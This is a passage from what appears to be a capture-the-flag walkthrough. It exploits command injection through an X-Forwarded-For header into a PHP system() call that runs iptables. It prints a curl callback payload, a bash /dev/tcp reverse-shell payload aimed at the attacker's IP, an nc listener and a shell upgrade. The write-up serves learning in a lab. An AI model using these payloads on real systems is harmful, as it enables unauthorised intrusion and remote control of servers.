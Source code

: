 6.  **Append another `;` so the rest of the original command runs**:
    This ensures the `iptables` command completes as intended:
    `10.10.14.22; bash -c "curl http://10.10.14.22:9000/POC 0<&1";`

When the PHP code runs, the final system command looks like this:

```shell
system("sudo /usr/sbin/iptables -A INPUT -s " . 10.10.14.22; bash -c "curl http://10.10.14.22:9000/POC 0<&1";  . " -j ACCEPT");
```

#### Sending Our Payload: {#sending-our-payload}

Now we need to intercept a `GET` request from the site to `firewall.php` so we can pass this. Let's go back to burp.

We navigate to `http://10.129.96.75/challenge.php` and enter the flag `UHC{F1rst_5tep_2_Qualify}` we retrieved via SQLi Union Injection earlier to trigger the post request to add our IP to the host.

In burp we can press CTRL+R and send to repeater.
![](/ox-hugo/2025-08-11-184520_.png)

We are going to insert out payload

```sh
x-forwarded-for: 10.10.14.22; bash -c "curl http://10.10.14.22:9000/POC 0<&1";
```

![](/ox-hugo/2025-08-11-184621_.png)
We can see we get a response straight away and it connects so we have command execution.
If you want you can also see it rendered on the page too.
![](/ox-hugo/2025-08-11-184730_.png)

### Getting A Reverse Shell Via Header Command Injection: {#getting-a-reverse-shell-via-header-command-injection}

Using the same format as before we should be able to get a reverse shell.

Let's start our listener.

```shell
nc -nvlp 80
```

And send our payload.

```shell
x-forwarded-for: 10.10.14.22; bash -c "/bin/bash -i >& /dev/tcp/10.10.14.22/80 0>&1";
```

![](/ox-hugo/2025-08-11-193344_.png)
We get our shell as the user `www-data`.

The shell is pretty unstable so let's upgrade it using python.

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
